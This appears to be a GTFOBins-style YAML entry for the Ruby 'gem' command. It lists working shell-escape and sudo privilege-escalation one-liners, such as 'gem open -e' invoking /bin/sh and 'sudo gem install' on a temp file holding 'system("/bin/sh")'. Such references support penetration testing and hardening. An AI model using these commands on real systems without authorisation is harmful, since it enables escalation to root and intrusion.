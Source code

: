 ```yaml
---
functions:
  shell:
    - description: This requires the name of an installed gem to be provided (`json` is usually installed).
      code: gem open -e "/bin/sh -c /bin/sh" json
    - description: This invokes the default editor, which is likely to be [`vi`](/gtfobins/vi/), other functions may apply. This requires the name of an installed gem to be provided (`json` is usually installed).
      code: |
        gem open json
        :!/bin/sh
    - description: This executes the specified file as [`ruby`](/gtfobins/ruby/) code.
      code: |
        TF=$(mktemp -d)
        echo 'system("/bin/sh")' > $TF/x
        sudo gem build $TF/x
    - description: This executes the specified file as [`ruby`](/gtfobins/ruby/) code.
      code: |
        TF=$(mktemp -d)
        echo 'system("/bin/sh")' > $TF/x
        sudo gem install --file $TF/x
  sudo:
    - description: This requires the name of an installed gem to be provided (`json` is usually installed).
      code: sudo gem open -e "/bin/sh -c /bin/sh" json
---
```

